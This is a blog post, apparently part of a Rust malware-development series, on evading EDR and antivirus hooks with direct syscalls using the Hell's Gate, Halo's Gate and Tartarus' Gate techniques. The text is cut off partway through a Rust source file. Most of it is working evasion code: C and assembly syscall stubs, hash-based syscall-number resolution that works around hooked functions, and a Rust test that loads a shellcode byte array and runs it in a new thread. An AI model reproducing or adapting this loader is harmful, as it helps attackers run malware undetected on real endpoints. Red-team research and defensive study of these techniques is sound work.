





In recent years, many EDR vendors have implemented user mode hooking. This allows EDR systems to analyze and potentially redirect code executed in the context of Windows APIs. If the code does not appear malicious, the system call is executed correctly; otherwise, execution is prevented. User mode hooking makes it harder to execute malware, so attackers use techniques like API unhooking, direct system calls, or indirect system calls to bypass EDRs.

This article will dive into how to use system calls to evade EDRs and AVs. First, we'll introduce the different techniques used by malware developers over the years and how they have improved. Once we cover these basics, a practical implementation in Rust will be presented, showing the code and how to use it. 

Let's begin with the basics

## What Are Syscalls?
Syscalls are the primary means by which user-level applications interact with the kernel of an operating system. They enable operations such as file manipulation, process control, and network communication. For instance, when a program needs to open a file, it makes a syscall to request the OS to perform this action on its behalf.

## Syscalls In The Cybersecurity World

Syscalls play a pivotal role in both malware attacks and defense mechanisms. Anti-virus (AV) and endpoint detection and response (EDR) products implement user-mode API hooking to protect against malware, using trampolines and therefore placing syscalls inside Windows API functions. Those hooks have the function to dynamically inspect for potentially malicious usage of Windows APIs.

> **Note**
> 
> Before the introduction of **Kernel Patch Protection (KPP)** aka Patch Guard, it was possible for antivirus products to implement their hooks in the Windows kernel, e.g. using **SSDT  hooking** \[1\]. With **Patch Guard**, this was **prevented** by Microsoft for reasons of operating system stability. Now, AVs and EDRs place their hooks inside ntdll.dll, the native layer, just before the kernel world.


For performance reasons, EDRs and AVs do not hook all the native functions. Hooking APIs costs resources, time, etc., slowing down the OS. For this reason, security solutions typically only hook select APIs that are often related to malware behavior such as `NtAllocateVirtualMemory` and `NtWriteVirtualMemory`. 

## Direct Syscalls
Direct system calls are a technique attackers use to run code without relying on the usual Windows APIs from kernel32.dll or native APIs from ntdll.dll. Each system call has a unique ID that identifies it, which can vary between Windows versions. By directly invoking the syscall instruction with the specific syscall ID, attackers can bypass the typical API function hooks that Endpoint Detection and Response (EDR) systems might use. This allows them to execute monitorized function without alerting security solutions.

This method is popular among attackers and Red Teamers for tasks like executing shellcode or creating a memory dump from lsass.exe. However, its effectiveness is decreasing. Many EDR vendors now implement **kernel callbacks** \[2\]\[3\] to monitor the memory areas from which syscall and return statements are executed. If a return statement originates outside the ntdll.dll memory area, it is flagged as suspicious behavior, triggering an alert.

There are several tools and POCs available to implement and execute direct syscalls, such as Syswhispers2, Syswhispers3, Hells Gate or Halo's Gate. In our case, we will create an enhanced version of Halo's gate, but in using Rust. In following posts we will make some modifications to be able to use indirect syscalls too. 

But first, we need to understand how to know which syscall ID correspond to what function.

## Hell's Gate: Collecting Syscall IDs
To understand Halo's Gate, let's first look at how an unhooked disassembled NT function appears and then examine the Halo's Gate code that reads this assembly code.

Here is an example of what an unhooked disassembled NT function might look like:
``` asm
mov r10, rcx
mov eax, 0x1234 ; Syscall number
syscall
retn
```

In this disassembled code, you see the `mov` instructions setting up registers and then the `syscall` instruction, which uses the unique syscall number (in this case, 0x1234) to perform the system call.

Halo's Gate reads this assembly code to extract the syscall number. Here’s a simplified portion of the Halo's Gate code that performs this:
``` c
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
    // Iterate over all the functions in the NT module (ntdll.dll) and find the one that matches the given hash
    (...)
    // If the syscall function is found
	// Check if the function starts with the following sequence of bytes:
	// 0x4C 8B D1    -> mov r10, rcx
	// 0xB8 xx xx    -> mov eax, imm32 (low and high parts of the syscall number)
	// 0x00 0x00     -> Null bytes to complete the instruction
	if (*((PBYTE)pFuncAddress) == 0x4C        
		&& *((PBYTE)pFuncAddress + 1) == 0x8B 
		&& *((PBYTE)pFuncAddress + 2) == 0xD1 
		&& *((PBYTE)pFuncAddress + 3) == 0xB8 
		&& *((PBYTE)pFuncAddress + 6) == 0x00 
		&& *((PBYTE)pFuncAddress + 7) == 0x00) { 
		
		// Extract the high and low parts of the syscall number
		BYTE high = *((PBYTE)pFuncAddress + 5); // High part of imm32
		BYTE low  = *((PBYTE)pFuncAddress + 4); // Low part of imm32
		// Combine the high and low parts to form the full syscall number
		pNtSys->dwSSn = (high << 8) | low;
		break; // Exit the loop since the syscall number is found
    (...)
}
```

However, Halo's Gate encounters a problem when these functions are hooked. When a function is hooked, the original code is replaced or modified with a jump to the hooking function, altering the OpCode order. Here is what a hooked disassembled NT function might look like:

``` asm
jmp qword ptr [rip+0x12345678] ; Hooked function
mov r10, rcx
mov eax, 0x1234 ; Syscall number
syscall
retn
```

In this hooked version, the first instruction are replaced with a jump to another location, disrupting the pattern that Halo's Gate relies on. With time, the community brought some improvements trying to solve this problems. One of the most famous aproches is the **Tartarus' Gate**.

## Tartarus' Gate: Bypassing The Hooks
The "tartarus gate" technique incorporates analyzing the neighboring functions of the targeted function3 to infer the SSNs as they are sequentially assigned.

Here’s how it works: Imagine a function labeled function C, which has been hooked by an EDR. We execute the Hell's Gate technique and it fails to retrieve the SSN for that function. Here is where the Tartarus' Gate technique starts. First looks into function B and D, that are adjacent to function C. By strategically jumping to these neighboring functions and sucessfully retriving the SSN values, an attacker can infer the SSN of Function C. 

The direction of the jump—whether forward (downward in the execution order) or backward (upward)—determines how many functions are traversed. If a negative jump is made (upward in execution), the attacker moves to functions called before the target, while a positive jump (downward in execution) involves functions called after the target.


_Tartarus' Gate aproach form Maldev Academy_

> **Note**
> 
> In x86_64 system architecture the NT functions have a 32-byte size, so the jumps are made 32 by 32

Returning to the Hell's Gate piece of code. We made some modifications to use the Targarus' Gate too:

``` c
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
    // Iterate over all the functions in the NT module (ntdll.dll) and find the one that matches the given hash
    (...)
	if (*((PBYTE)pFuncAddress) == 0x4C
			&& *((PBYTE)pFuncAddress + 1) == 0x8B
			&& *((PBYTE)pFuncAddress + 2) == 0xD1
			&& *((PBYTE)pFuncAddress + 3) == 0xB8
			&& *((PBYTE)pFuncAddress + 6) == 0x00
			&& *((PBYTE)pFuncAddress + 7) == 0x00) {

			BYTE high = *((PBYTE)pFuncAddress + 5);
			BYTE low  = *((PBYTE)pFuncAddress + 4);
			pNtSys->dwSSn = (high << 8) | low;
			break; // break for-loop [i]
		}

		// if hooked
		if (*((PBYTE)pFuncAddress) == 0xE9) {

			for (WORD idx = 1; idx <= RANGE; idx++) {
				// check neighboring syscall down
				if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
					&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
					&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
					&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
					&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
					&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {

					BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
					BYTE low  = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
					pNtSys->dwSSn = (high << 8) | low - idx;
					break; // break for-loop [idx]
				}
				// check neighboring syscall up
				if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
					&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
					&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
					&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
					&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
					&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {

					BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
					BYTE low  = *((PBYTE)pFuncAddress + 4 + idx * UP);
					pNtSys->dwSSn = (high << 8) | low + idx;
					break; // break for-loop [idx]
				}
			}
		}
	(...)
}
```

This method also have its drawbacks: if all NT functions are hooked or modified this approach will also fail. As commented before, this is unlikely to happen; EDRs and AVs do not hook all the functions for performance reasons. 

Now that we know how to gather the SSN needed to call functions, lets craft our own assembly code. 
## Hell's Gate: Calling NT Functions
Remember from the previous sections how an assembly NT function call looks like. There the SSN number is "harcoded" into the assembly function, something that we cannot do because we do not know which function we want to call; we need to make it somehow modular. Here is the approach: 

``` c
data
	wSystemCall DWORD 000h              ; this is a global variable used to keep the SSN of a syscall

.code 
	SetSSn PROC
		mov wSystemCall, 000h		
		mov wSystemCall, ecx            ; updating the 'wSystemCall' variable with input argument (ecx register's value)
		ret
	SetSSn ENDP

	RunSyscall PROC
		mov r10, rcx
		mov eax, wSystemCall            ; `wSystemCall` is the SSN of the syscall to call
		syscall
		ret
	RunSyscall ENDP
end
```

This assembly code is used to execute system calls (syscalls) on a 32-bit or 64-bit Windows system, using two functions: `SetSSn` and `RunSyscall`.

The `SetSSn` function assign a value to the global variable named `wSystemCall`, which serves as a placeholder for the syscall number (SSN). It takes a single argument via the `ecx` register and stores this value in `wSystemCall`, as the windows calling convention states. 

The `RunSyscall` function is responsible for executing the syscall itself. It begins by preparing any necessary context derived from the `ecx` register, which it moves into `r10`. Next, it retrieves the syscall number stored in `wSystemCall` and places it into the `eax` register, which traditionally holds the syscall number on Windows systems. The `syscall` instruction is then invoked to transition the processor into kernel mode, where it executes the syscall identified by the value in `eax`. Finally, the procedure concludes with a `ret` instruction, returning control from the syscall execution back to the caller.

This function can be easily declared using the `extern` C primitive: 
``` c
extern VOID SetSSn(DWORD wSystemCall);
extern RunSyscall();
```

Then just execute them as follows:
``` c
SetSSn(NtAllocateVirtualMemorySSn);
RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
```

## An Improved Tartarus' Gate Written In Rust 
If you have seen my previous blog posts you should know that I am currently learning Rust. So to improve my coding skills with this programming language I force myself into make this implementations only using Rust. 

With this project I learnt how to write, declare and use assembly functions inside Rust code. I also improved how to organize my code and the best way to declare pointers and variable sizes. I also learnt how to debug integration tests with an external debugger. I think my error hanlding could be better and my logging too, but I think I improved reading other projects too. OK, reflection done, let's jump to the code. 

### Architecture
The project has been organized into four scripts: 
- **tests/tests.rs**: The integration tests. This is used like a main function for our library. Here we test that all the implementation works. 
- **src/lib.rs**: The library interface. Here is declared what does functions and structs from the library can be used. 
- **src/hells_gate.rs**: Module having all the SSN gathering. Implements Hell's Gate with some improvements from Tartarus' Gate. It also use CRC32 hashes to avoid hardcode functions names into the script. 
- **src/asm.rs**: Module having the improved and obfuscated assembly functions to perform the direct system call.

This implementation uses the **Local Process Shellcode Execution** approach but can be transformed into any other injection such as Remote Mapping Injection, Early Bird APC Injection or any other. 

> **Disclamer**
> 
> Some functions use utility functions I have written in other projects. This functions are the `get_export_directory` and the `compute_crc32_hash` and they are publicly available in my [github](https://github.com/N10h0ggr/RustMalDev)  as all the code I publish in this blog. 

### tests.rs
``` rust
#[cfg(test)]  
mod integration_tests {  
    use std::{mem, ptr};  
    use windows::Win32::Foundation::{FALSE, HANDLE};  
    use windows::Win32::System::Kernel::NULL64;  
    use windows::Win32::System::Memory::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READ, PAGE_READWRITE};  
    use syscalls::{prepare_syscall, run_direct_syscall};  
    use windows::Win32::System::Threading::{GetThreadId, THREAD_ALL_ACCESS};  
  
    const NT_ALLOCATE_VIRTUAL_MEMORY_CRC32: u32 = 0xe77460e0;  
    const NT_PROTECT_VIRTUAL_MEMORY_CRC32: u32 = 0x5e84b28c;  
    const NT_CREATE_THREAD_EX_CRC32: u32 = 0xe2083cd5;  
    const NT_WAIT_FOR_SINGLE_OBJECT_CRC32: u32 = 0x57c643ce;  
  
    // calc.exe  
    const PAYLOAD: [u8; 272] = [  
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,  
        0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,  
        0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,  
        0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,  
        0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,  
        0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,  
        0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,  
        0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,  
        0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,  
        0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,  
        0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,  
        0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,  
        0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,  
        0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,  
        0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,  
        0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,  
        0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00  
    ];  
  
    #[test]  
    fn test_direct_syscall() {  
  
        let mut p_address: *mut std::ffi::c_void = ptr::null_mut();  
        let mut s_payload: usize = mem::size_of_val(&PAYLOAD);  
        let old_protection: u32 = 0;  
  
        unsafe {  
            let h_process: isize = -1;  // local process
            let h_thread: HANDLE = HANDLE::default();  
  
            // allocating memory  
            prepare_syscall(NT_ALLOCATE_VIRTUAL_MEMORY_CRC32);  
            let status: usize = run_direct_syscall(h_process, &mut p_address, 0, &mut s_payload, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
            assert_eq!(status, 0x00,"[!] NtAllocateVirtualMemory Failed With Error: {:x}", status);  
            assert!(!p_address.is_null(), "[!] NtAllocateVirtualMemory Returned Null Pointer");  
  
            // copying the payload  
            println!("[+] Allocated Memory At Address {:?}", p_address);  
            ptr::copy_nonoverlapping(PAYLOAD.as_ptr(), p_address as _, s_payload);  
  
            // changing memory protection  
            prepare_syscall(NT_PROTECT_VIRTUAL_MEMORY_CRC32);  
            let status: usize = run_direct_syscall(h_process, &mut p_address, &mut s_payload, PAGE_EXECUTE_READ, &old_protection);  
            assert_eq!(status, 0x00,"[!] NtProtectVirtualMemory Failed With Error: {:x}", status);  
  
            prepare_syscall(NT_CREATE_THREAD_EX_CRC32);  
            let status: usize = run_direct_syscall(&h_thread, THREAD_ALL_ACCESS, NULL64, h_process, p_address, NULL64, false as i32, NULL64, NULL64, NULL64, NULL64);  
            assert_eq!(status, 0x00,"[!] NtCreateThreadEx Failed With Error: {:x}", status);  
  
            println!("[+] Thread {} Created Of Entry: {:?} \n", GetThreadId(h_thread), p_address);  
  
            prepare_syscall(NT_WAIT_FOR_SINGLE_OBJECT_CRC32);  
            let status: usize = run_direct_syscall(h_thread, FALSE, NULL64);  
            assert_eq!(status, 0x00,"[!] NtWaitForSingleObject Failed With Error: {:x}", status);  
        }  
    }  
}
```

### lib.rs
``` rust
pub mod asm;  
pub use asm::run_direct_syscall;  
use asm::set_ssn;  
pub mod hells_gate;  
use hells_gate::{fetch_nt_syscall};  
  
/// Prepares a system call by fetching the NT syscall using the provided hash.  
///  
/// # Parameters  
///  
/// - `hash`: A 32-bit unsigned integer representing the hash value used to fetch the NT syscall.  
///  
/// # Panics  
///  
/// This function will panic if there is an error in fetching the NT syscall.  
/// The error message will be printed with the hash value.  
pub unsafe fn prepare_syscall(hash: u32) {  
    match fetch_nt_syscall(hash) {  
        Ok(syscall) => {  
            set_ssn(syscall.dw_ssn as usize);  
        },  
        Err(e) => {  
            panic!("[prepare_syscall] Error: {}", e);  
        }  
    }  
}
```

### hells_gate.rs
``` rust
use windows;  
use std::ffi::c_void;  
use std::{ptr};  
use utils::{get_export_directory};  
use utils::hash::{compute_crc32_hash};  
use windows::Win32::Foundation::HMODULE;  
use windows::Win32::System::Threading::PEB;  
use windows::Win32::System::WindowsProgramming::LDR_DATA_TABLE_ENTRY;  
  
const UP: isize = -32;  
const DOWN: isize = 32;  
const RANGE: u16 = 0xFF;  
  
#[repr(C)]  
#[derive(Debug)]  
struct NtdllConfig {  
    pdw_array_of_addresses: *mut u32, // The VA of the array of addresses of ntdll's exported functions   [BaseAddress + IMAGE_EXPORT_DIRECTORY.AddressOfFunctions]  
    pdw_array_of_names: *mut u32,     // The VA of the array of names of ntdll's exported functions       [BaseAddress + IMAGE_EXPORT_DIRECTORY.AddressOfNames]  
    pw_array_of_ordinals: *mut u16,   // The VA of the array of ordinals of ntdll's exported functions    [BaseAddress + IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals]  
    dw_number_of_names: u32,          // The number of exported functions from ntdll.dll                 [IMAGE_EXPORT_DIRECTORY.NumberOfNames]  
    u_module: usize,                  // The base address of ntdll - required to calculate future RVAs   [BaseAddress]  
}  
static mut G_NTDLL_CONF: NtdllConfig = NtdllConfig {  
    pdw_array_of_addresses: ptr::null_mut(),  
    pdw_array_of_names: ptr::null_mut(),  
    pw_array_of_ordinals: ptr::null_mut(),  
    dw_number_of_names: 0,  
    u_module: 0,  
};  
  
#[repr(C)]  
#[derive(Clone)]  
pub struct NtSyscall {  
    pub dw_ssn: u32,  
    pub dw_syscall_hash: u32,  
    pub p_syscall_address: *mut c_void,  
}  
static mut SYSCALL_CACHE: Vec<NtSyscall> = Vec::new();  
  
/// Initializes the `NtdllConfig` structure with data from the ntdll.dll module.///  
/// This function retrieves the Process Environment Block (PEB) and uses it to find the  
/// `ntdll.dll` module. It then fetches the export directory of `ntdll.dll` and initializes/// the `NtdllConfig` structure with relevant information such as the module base address,/// the number of exported names, and pointers to arrays of names, addresses, and ordinals.  
///  
/// # Returns  
/// * `Ok(NtdllConfig)` - If the initialization is successful with all required fields populated./// * `Err(&'static str)` - If there is an error during the initialization, such as a null pointer///   being encountered or any field failing to be correctly initialized.  
///  
/// # Errors  
/// The function returns the following errors:  
/// * `"init_ntdll_config_structure: PEB is null"` - If the PEB is null./// * `"init_ntdll_config_structure: module is null"` - If the module base address is null./// * `"Failed to get export directory"` - If the export directory cannot be fetched./// * `"init_ntdll_config_structure: One of the parameters is null"` - If any of the parameters in///   the `NtdllConfig` structure are null after initialization.  
unsafe fn init_ntdll_config_structure() -> Result<NtdllConfig, &'static str> {  
    // Getting PEB  
    let p_peb: *mut PEB = utils::get_peb();  
    if p_peb.is_null() { // || (*p_peb).OSMajorVersion != 0xA  
        return Err("init_ntdll_config_structure: PEB is null");  
    }  
  
    // Getting ntdll.dll module  
    let p_ldr_data = (*(*p_peb).Ldr).InMemoryOrderModuleList.Flink;  
    let p_ldr = ((*p_ldr_data).Flink as *mut u8).sub(0x10) as *mut LDR_DATA_TABLE_ENTRY; //skip local image element  
    let u_module = (*p_ldr).DllBase as usize;  
    if u_module == 0 {  
        return Err("init_ntdll_config_structure: module is null");  
    }  
  
    // Fetching the export directory of ntdll  
    let h_module = HMODULE(u_module as isize);  
    let p_img_exp_dir = get_export_directory(h_module).ok_or("Failed to get export directory")?;  
  
    // Initializing the NtdllConfig struct  
    let config = NtdllConfig {  
        u_module,  
        dw_number_of_names: (*p_img_exp_dir).NumberOfNames,  
        pdw_array_of_names: (u_module + (*p_img_exp_dir).AddressOfNames as usize) as *mut u32,  
        pdw_array_of_addresses: (u_module + (*p_img_exp_dir).AddressOfFunctions as usize) as *mut u32,  
        pw_array_of_ordinals: (u_module + (*p_img_exp_dir).AddressOfNameOrdinals as usize) as *mut u16,  
    };  
  
    // Checking  
    if config.u_module == 0 || config.dw_number_of_names == 0 || config.pdw_array_of_names.is_null() || config.pdw_array_of_addresses.is_null() || config.pw_array_of_ordinals.is_null() {  
        Err("init_ntdll_config_structure: One of the parameters is null")  
    } else {  
        Ok(config)  
    }  
}  
  
/// Fetches the NT syscall information based on the provided syscall hash.  
///  
/// # Safety  
/// This function is marked as unsafe because it directly accesses global mutable state  
/// (`G_NTDLL_CONF`) and operates on raw pointers (`module_base`, `names_slice`, `addresses_slice`,  
/// `ordinals_slice`). It relies on correct initialization and configuration of `G_NTDLL_CONF`.  
///  
/// # Arguments  
/// * `dw_sys_hash` - The hash value of the syscall name to search for.///  
/// # Returns  
/// * `Ok(NtSyscall)` - If the syscall is found and validated, returns the populated `NtSyscall` structure./// * `Err(&'static str)` - If the syscall with the given hash is not found or validation fails.pub unsafe fn fetch_nt_syscall(dw_sys_hash: u32) -> Result<NtSyscall, &'static str> {  
  
    if dw_sys_hash == 0 {  
        return Err("fetch_nt_syscall: dw_sys_hash argument is 0");  
    }  
  
    if let Some(syscall) = search_syscall_in_cache(dw_sys_hash) {  
        return Ok(syscall)  
    }  
  
    // Initialize ntdll config if not found  
    if G_NTDLL_CONF.u_module == 0 {  
        G_NTDLL_CONF = init_ntdll_config_structure()?;  
    }  
  
    let mut nt_sys = NtSyscall {  
        dw_ssn: 0,  
        dw_syscall_hash: 0,  
        p_syscall_address: ptr::null_mut(),  
    };  
  
    nt_sys.dw_syscall_hash = dw_sys_hash;  
  
    let module_base = G_NTDLL_CONF.u_module as *const u8;  
    let names_slice = std::slice::from_raw_parts(G_NTDLL_CONF.pdw_array_of_names, G_NTDLL_CONF.dw_number_of_names as usize);  
    let addresses_slice = std::slice::from_raw_parts(G_NTDLL_CONF.pdw_array_of_addresses, G_NTDLL_CONF.dw_number_of_names as usize);  
    let ordinals_slice = std::slice::from_raw_parts(G_NTDLL_CONF.pw_array_of_ordinals, G_NTDLL_CONF.dw_number_of_names as usize);  
  
    for i in 0..G_NTDLL_CONF.dw_number_of_names-1 {  
        let func_name_ptr = module_base.add(names_slice[i as usize] as usize) as *const i8;  
        let func_address = module_base.add(addresses_slice[ordinals_slice[i as usize] as usize] as usize);  
  
        let func_name = match std::ffi::CStr::from_ptr(func_name_ptr).to_str() {  
            Ok(name) => name,  
            Err(_) => continue,  // Skip invalid UTF-8 function names  
        };  
  
        if compute_crc32_hash(func_name.as_ref()) == dw_sys_hash {  
            nt_sys.p_syscall_address = func_address as *mut c_void;  
  
            if check_syscall_bytes(func_address, 0) {  
                nt_sys.dw_ssn = extract_syscall_number(func_address, 0) as u32;  
                SYSCALL_CACHE.push(nt_sys.clone());  
                return Ok(nt_sys);  
            }  
  
            // if hooked - scenario 1  
            if *func_address == 0xE9 {  
                if let Some(ssn) = find_syscall_number(func_address) {  
                    nt_sys.dw_ssn = ssn;  
                    SYSCALL_CACHE.push(nt_sys.clone());  
                    return Ok(nt_sys);  
                }  
            }  
  
            // if hooked - scenario 2  
            if *func_address.add(3) == 0xE9 {  
                if let Some(ssn) = find_syscall_number(func_address) {  
                    nt_sys.dw_ssn = ssn;  
                    SYSCALL_CACHE.push(nt_sys.clone());  
                    return Ok(nt_sys);  
                }  
            }  
        }  
    }  
  
    Err("fetch_nt_syscall: Finished without finding syscall")  
}  
  
/// Finds the syscall number by checking neighboring bytes for potential hooks.  
///  
/// # Arguments  
/// * `func_address` - A pointer to the function address.///  
/// # Returns  
/// * `Some(u32)` containing the syscall number if found, `None` otherwise.unsafe fn find_syscall_number(func_address: *const u8) -> Option<u32> {  
    for idx in 1..=RANGE {  
        if check_syscall_bytes(func_address, idx as isize * DOWN) {  
